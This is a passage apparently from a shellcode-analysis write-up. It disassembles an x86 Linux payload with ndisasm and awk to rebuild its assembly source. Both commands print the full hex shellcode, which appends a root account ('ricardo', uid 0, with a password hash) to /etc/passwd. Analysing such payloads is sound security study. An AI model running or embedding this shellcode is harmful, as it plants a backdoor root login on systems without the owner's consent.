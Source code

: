 
Or a little quicker:

```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

![Screenshot](images/adduser/5.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```bash
echo -e "section .text\nglobal _start \n_start:" > 1.nasm

echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 1.nasm
```
